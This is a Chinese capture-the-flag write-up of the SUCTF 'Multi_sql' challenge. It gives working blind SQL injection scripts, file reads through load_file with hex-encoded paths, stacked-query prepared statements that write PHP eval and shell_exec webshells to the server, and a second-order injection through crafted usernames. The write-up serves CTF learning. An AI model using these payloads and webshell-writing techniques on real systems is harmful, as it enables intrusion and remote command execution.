




SUCTF是江苏高校联盟得战队，题目质量个人感觉很不错，学到了很多姿势。这里把Multi_sql这个题目补一下，结合了一些大佬的思路，加上自己的理解，复现了环境。所以有了这篇文章。文章中可能出现一些我搞不太懂的地方…23333
题目描述
hint:Get Shell
首先有一个登陆和注册的链接，接着注册后，直接登陆，可以查询信息

解题思想
用户名密码中的引号都被转义，并且将一些注入用的and,union,select,substr,order,where,&等等转成了@@，一开始大佬说利用@@，看样子是不行。
登陆后点击用户信息(http://39.107.124.151:1002/user/user.php?id=3)，id可能有注入
预期解法
尝试了一下id注入http://39.107.124.151:1002/user/user.php?id=1*ascii(mid(user(),1,1))
发用户信息的id变为了115，说明id存在注入(测试环境，需要脚本生成大量用户进行测试register_users.py)，接着使用1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26import requests
from bs4 import BeautifulSoup
sqli_url = 'http://39.107.124.151:1002/user/user.php'
cookies = {'PHPSESSID' : 'ln90ifav9t7gb4gitvib7dkee4'}
result = ''
for i in range(100):
# payload = "1*ascii(mid(user(),%d,1))" % (i+1) # 盲注 user
# payload = "1*ascii(mid(database(),%d,1))" % (i+1) # 盲注 databse
payload = "1*ascii(mid(@@secure_file_priv,%d,1))" % (i+1)
params = {'id': payload}
r = requests.get(sqli_url, cookies = cookies, params = params)
soup = BeautifulSoup(r.text, 'html.parser')
# print(soup)
try:
user_id_tag = soup.find_all("h1")
user_id = (user_id_tag[0].contents)[0].split(':')[1]
w = chr(int(user_id))
except:
break
result += w
print('[+] result:' + result)
print('[+] result:' + result)
盲注到 user:suctf database:ctf secure_file_priv:/var/www/
对于用户读写文件，如果mysql使用的root用户，那么肯定可以读写。但是如果设置了–secure-file-priv，那么root用户也只能访问@@secure-file-priv所制定的目录下。temp是所有用户都能访问的目录，倘若出现文件包含而且用户不是root，可以将webshell写入到tmp/下
我们得到了secure_file_priv，接着尝试直接读出文件user.php查看id注入点的实现
由于引号都被转义，像php中让汉字取反直接获得字符一样，我们将文件名直接变成16进制，这样就能绕过引号的转义
python3 hex_str = ‘0x’ + str(binascii.hexlify(b’/var/www/html/user/user.php’), ‘ascii’)
sql读文件 select load_file(‘c:/boot.ini’) select load_file(0x633a2f626f6f742e696e69)
sql写文件 select 0x313233 into outfile ‘D:/1.txt’ select 0x313233 into dumpfile ‘D:/1.txt’
使用read_file.py 获得user.php1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66#/usr/bin/pyton3
import requests
import binascii
from bs4 import BeautifulSoup
url = 'http://39.107.124.151:1002'
login_url = 'http://39.107.124.151:1002/user/logCheck.php'
sqli_url = 'http://39.107.124.151:1002/user/user.php'
file_name = b'/var/www/html/user/user.php'
hex_str = '0x' + str(binascii.hexlify(file_name), 'ascii')
def login():
r = requests.get(url)
cookies = r.cookies # 先访问网页获得cookie
username = 'a';
pw = 'a';
data = {
'user' : username,
'pass' : pw,
'submit' : 'submit'
}
r = requests.post(login_url, data = data, cookies = cookies) # 登陆需要带着cookie
if '你好' in r.text:
print('[+] login success')
return cookies
else:
print('[-] login failure')
exit()
def exp_test():
cookies = login()
# print(cookies)
payload = '1*ascii(mid((load_file('+ hex_str + ')),1,1))'
params = {'id': payload}
r = requests.get(sqli_url, cookies = cookies, params = params)
soup = BeautifulSoup(r.text, 'html.parser')
user_id_tag = soup.find_all("h1")
user_id = (user_id_tag[0].contents)[0].split(':')[1]
print(user_id_tag[0].contents)
w = chr(int(user_id))
print(w)
def exp():
cookies = login() # 登陆获得cookie
result = ''
for i in range(100000):
payload = '1*ascii(mid((load_file(' + hex_str + ')),%d,1))' % (i+1)
params = {'id': payload}
r = requests.get(sqli_url, cookies = cookies, params = params)
soup = BeautifulSoup(r.text, 'html.parser')
user_id_tag = soup.find_all("h1") # 获得的tag是list
user_id_content = (user_id_tag[0].contents)[0].split(':') # tag的contents也是list
if user_id_content[1] != '':
w = chr(int(user_id_content[1]))
result += w
print(result)
else:
break
exp()
获得user.php，审计一波发现使用了mysqli_multi_query函数，可以多语句执行，这样我们在id出直接多语句注入就行

select被过滤，而我们需要写文件，需要用到select进行写入，一种直接在select后加要写入的数据，另一种select后是从数据库中查的数据写到文件。
多语句查询，可以使用prepare statement(Mysql Prepare)
MariaDB [(none)]> prepare p from ‘select user()’; execute p;
Query OK, 0 rows affected (0.00 sec)
Statement prepared
+—————–+
| user() |
+—————–+
| suctf@localhost |
+—————–+
1 row in set (0.00 sec)
由于不能使用引号，可以使用mysql的变量，并将变量转化为16进制绕过，也可以使用char()函数绕过
// hex(‘select user()’) = 0x73656c65637420757365722829
MariaDB [(none)]> set @a = 0x73656c65637420757365722829; prepare p from @a; execute p;
Query OK, 0 rows affected (0.00 sec)
Query OK, 0 rows affected (0.00 sec)
Statement prepared
+—————–+
| user() |
+—————–+
| suctf@localhost |
+—————–+
1 row in set (0.00 sec)
接着直接写shell 写shell的时候要注意，可能在/var/www/html/下有一些目录不能写，这时我们应换目录写，多注意存放图片或者js，css的目录1
2 // hex("select '<?php eval($_POST[1]);?>' into outfile '/var/www/html/favicon/1.php'")= 0x73656c65637420273c3f706870206576616c28245f504f53545b315d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f66617669636f6e2f312e70687027
set @a = 0x73656c65637420273c3f706870206576616c28245f504f53545b315d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f66617669636f6e2f312e70687027; prepare p from @a; execute p;
访问http://39.107.124.151:1002/user/user.php/?id=1;set @a = 0x73656c65637420273c3f706870206576616c28245f504f53545b315d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f66617669636f6e2f312e70687027; prepare p from @a; execute p;上传hell。
也可以访问http://web.suctf.asuri.org:85/user/user.php?id=22727;set @s=CHAR(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,98,100,119,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,109,121,115,104,101,108,108,46,112,104,112,39,59);prepare p from @s;execute p;
接着连接shell
$ curl http://39.107.124.151:1002/favicon/1.php -d “1=echo ‘test’;”
test
非预期解法 （二次注入）
二次注入就是，把一些脏数据转义后放到数据库，这样不会在Insert的时候发生sqli，但是很多情况下，数据库里的数据又被拿出来运用，而不加检测，从而导致二次注入
这个题目本不因该存在二次注入，假设我们注册一个用户a'#，传入insert语句时是a\'#，但是放入数据库中后是a'#。本身我们注册时，SESSIO[‘username’]就是a\'#。然后注册后直接进行登陆，可以不进行查询。所以不会发生二次注入。
这是我们应该测试直接登陆，而不是注册后默认登陆，直接登陆a'#。bug可能出现在任意一个场合，即使是一样的代码 这个地方直接登陆时，就发现了二次注入我们直接登陆a' #时，查询信息时，发现获得的info是username=a的info。所以应该是在直接登陆时，先是验证了用户名密码，使用select查询，接着把数据库中的username用作了SESSION['username']，查询源码logCheck.php发现1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
// 部分代码
$sql = "SELECT * FROM dwvs_user_message WHERE DWVS_user_name ="."'"."$clean_name"."'"." AND DWVS_user_passwd="."'".md5("$clean_pass")."'";
$data = mysqli_query($connect, $sql) or die('Mysql Error!!');
mysqli_close($connect);
if(mysqli_num_rows($data) == 1)
{
$row = mysqli_fetch_array($data);
$_SESSION['user_id'] = $row['DWVS_user_id'];
$_SESSION['user_name'] = $row['DWVS_user_name']; //将查询的数据库中的username用作sesson中的name
if(!empty($row['DWVS_user_favicon']))
{
$_SESSION['user_favicon'] = $row['DWVS_user_favicon'];
}else
{
$rand_num = rand(1,4);
$user_favicon = "../favicon/"."$rand_num".".jpg";
$_SESSION['user_favicon'] = $user_favicon;
}
header('Location: user.php');
}else{
$_SESSION['login_error'] = 'Error';
header('Location: login.php');
}
}else{
$_SESSION['login_error'] = 'Error';
header('Location: login.php');
}
}
猜测功能实现:
- 注册时，insert自动生成id
- 登陆时，根据二次注入，SESSION[‘username’]为payload
- 根据SESSION[‘username’]查询出id，猜测 select * from users where username = SESSION[‘username’] 可以成功利用二次注入
所以可以直接通过二次注入，将写shell到服务器上，此时我们可以使用引号，而且导致二次注入的语句是select的，这样我们通过写入select的数据到文件，所以必须先注册一个用户username=<?php eval($_POST[2]);?>，接着我们注册username=<?php eval($_POST[2];?>' into outfile '/var/www/html/favicon/2.php'#，接着直接登陆第二个账户，然后点击用户信息，查询id，从而获得<?php eval($_POST[2]);?>的信息，并写到文件中
但是在注册第二个账户之后，直接登陆发现登陆失败，那么shell肯定写入失败。这种情况下，会登陆失败说明username长度超过了数据库规定长度，测试脚本1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46#/usr/bin/python3
import requests
url = 'http://39.107.124.151:1002'
r = requests.get(url)
cookies = r.cookies
reg_url = 'http://39.107.124.151:1002/user/regCheck.php'
log_url = 'http://39.107.124.151:1002/user/logCheck.php'
def reg(username):
data = {
'username' : username,
'New_pass' : 'a',
'Re_pass' : 'a',
'submit' : '注册'
}
r = requests.post(reg_url, data = data, cookies = cookies)
if '你好' in r.text:
print('[+] register success username:' + username)
else:
print('reg fail')
pass
def log(username):
data = {
'user' : username,
'pass' : 'a',
'submit' : 'submit'
}
r = requests.post(log_url, data = data, cookies = cookies)
if '你好' in r.text:
print('[+] login success username:' + username)
return 1
else:
return 0;
def main():
for i in range(1, 100):
username = 'w' * i;
reg(username)
if not log(username):
print('Max username length is %d' % (i-1) )
break
main()
结果为60

重新构造payload为<?=`$_GET[3]`;?>'into outfile'/var/www/html/favicon/3.php'#
<?= 等同于 <?php echo 反引号是php的执行运算符等同与shell_exec()函数，直接执行shell命令，单引号和关键字之间不加空格来缩短长度，所以以后在渗透的时候要尽量先把payload处理到最短，避免出现一些不必要的问题
接着注册两个用户，然后直接登陆第二个，接着连接shell
